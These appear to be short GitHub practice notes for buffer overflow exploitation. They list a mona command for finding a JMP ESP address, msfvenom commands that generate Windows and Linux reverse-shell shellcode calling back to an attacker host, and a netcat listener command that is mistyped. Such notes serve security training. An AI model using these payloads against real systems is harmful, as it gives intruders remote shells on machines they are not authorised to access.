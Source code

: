 # BOF_2022_02_12
Buffer Overflow Practice

# COMMANDES UTILS

1-!mona jmp -r esp -cpb  "\x00"

[+]- esp return address 311712f3

# Win x86
2- msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=443 -b '\x00' EXITFUNC=thread -f python -v shellcode

# linux target x86
3- msfvenom -p linux/x86/shell_reverse_tcp LHOST=eth0 LPORT=443 -b '\x00' EXITFUNC=thread -f python -v shellcode

# run
4- nc lnvp 443
